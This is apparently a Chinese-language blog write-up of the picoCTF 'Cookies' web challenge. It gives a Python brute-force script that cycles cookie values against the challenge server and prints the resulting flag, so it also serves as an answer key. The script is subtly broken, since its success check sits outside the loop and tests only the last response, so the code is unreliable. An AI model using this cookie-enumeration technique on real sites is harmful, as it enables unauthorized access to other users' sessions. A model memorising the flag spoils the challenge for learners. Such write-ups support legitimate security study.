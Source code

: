 ```yaml
---
layout: post
title: picoCTF Cookies [40points] 
date: 2022-03-20
Author: LuYee6813
tags: [Write-Ups]
comments: true
toc: true
---
```


# [Web Exploitation] Cookies - 40points

初始畫面
![Image](https://i.imgur.com/JCj8GL7.png)


輸入snickerdoodle，發現進入畫面不一樣
![Image](https://i.imgur.com/R2hIkU3.png)

嘗試撰寫暴力破解腳本
```python
#!/bin/python3
import requests
for i in range(25):
    cookie = 'name={}'.format(i)
    headers = {'Cookie':cookie}
    
    r = requests.get('http://mercury.picoctf.net:<port>/check', headers=headers)
if (r.status_code == 200) and ('picoCTF' in r.text):
        print(r.text)
```

取得FLAG
![Image](https://i.imgur.com/yDhWHOX.png)

FLAG:picoCTF{3v3ry1_l0v3s_c00k135_064663be}

